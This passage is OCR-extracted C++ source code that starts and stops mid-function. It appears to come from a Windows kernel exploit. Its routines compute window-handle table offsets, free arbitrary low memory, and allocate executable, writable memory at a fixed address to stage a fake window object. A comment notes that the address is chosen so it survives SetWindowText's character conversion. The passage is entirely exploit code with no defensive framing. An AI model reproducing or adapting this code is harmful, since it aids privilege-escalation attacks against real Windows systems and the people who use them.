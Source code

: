         return hInst;
    }

    // do the basic operation on the handler for knowing where it is in the table
    int get_table_offset_from_handle(int h)
    {
        return (0xc * (h & 0xffff));
    }

    // If I can't allocate normally I just try to free something allocate at a place
    // where I can alloc
    PVOID desesperateallocate()
    {
        int BaseAddr = 0x00200000; // this is arbitrary
        PVOID Addr = (PVOID) BaseAddr;
        ULONG Size = 0;
        ULONG Status;

        Status = NtFreeVirtualMemory( ((HANDLE) -1), &Addr, &Size,
            MEM_RELEASE);

        while (Status)
        {
            BaseAddr += 0x10000;
            Addr = (PVOID) BaseAddr;
            Status = NtFreeVirtualMemory( ((HANDLE) -1), &Addr, &Size,
                MEM_RELEASE);
        }

        std::cout << "Free : 0x" << std::hex << Addr << std::endl;

        Status = NtAllocateVirtualMemory( ((HANDLE) -1), &Addr, 0, &Size,
            MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        if (Status)
        {
            std::cout << "Fail reallocation at 0x" << std::hex << BaseAddr
                << std::endl;
            exit(0);
        }
        return Addr;
    }

    // allocate with NTAllocatVirtualMemory a place for putting a fake window
    // In particular this function care that the address will be put in a string
    // SetWindowText convert the things it does not now how to print in '?'
    PVOID functionallocate()
    {
        int BaseAddr = 0x00200000; // this is arbitrary
        PVOID Addr = (PVOID) BaseAddr;
        ULONG Size = 1024;
        ULONG Status = 1;

        Status = NtAllocateVirtualMemory( ((HANDLE) -1), &Addr, 0, &Size,
            MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE);
